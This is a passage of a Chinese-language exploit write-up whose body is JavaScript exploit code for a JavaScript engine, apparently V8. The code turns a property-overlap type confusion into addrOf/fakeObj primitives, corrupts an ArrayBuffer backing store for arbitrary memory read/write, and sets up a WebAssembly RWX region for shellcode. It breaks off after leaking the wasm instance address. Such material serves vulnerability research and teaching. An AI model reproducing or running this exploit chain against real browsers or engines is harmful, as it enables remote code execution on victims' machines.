 最后的利用代码如下
```JS
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);

// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2Addr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address @ 0x${arrBuf2Addr.toString(16)}`);

// Corrupt Backing Store Pointer of arrBuf1 with Address to arrBuf2
print("[+] Corrupting ArrayBuffer Backing Store...")
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2Addr);

// Store Original Backing Store Pointer of arrBuf2
let view1 = new BigUint64Array(arrBuf1)
let originalArrBuf2BackingStore = view1[4]

// Construct Memory Primitives via Array Buffers
let memory = {
  write(addr, bytes) {
    view1[4] = addr;
    let view2 = new Uint8Array(arrBuf2);
    view2.set(bytes);
  },
  read64(addr) {
    view1[4] = addr;
    let view2 = new BigUint64Array(arrBuf2);
    return view2[0];
  },
  write64(addr, ptr) {
    view1[4] = addr;
    let view2 = new BigUint64Array(arrBuf2);
    view2[0] = ptr;
  },
  addrOf(obj) {
    arrBuf2.leakMe = obj;
    let props = this.read64(arrBuf2Addr + 8n) - 1n;
    return this.read64(props + 16n) - 1n;
  }
};

print("[+] Constructed Memory Read and Write Primitive!");

print("[+] Generating a WebAssembly Instance...");

// Generate RWX region for Shellcode via WASM
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

// Leak WebAssembly Instance Address and Jump Table Start Pointer
print("[+] Leaking WebAssembly Instance Address...");
let wasmInstanceAddr = memory.addrOf(wasmInstance);
print(`[+] WebAssembly Instance Address @ 0x${wasmInstanceAddr.toString(16)}`);
```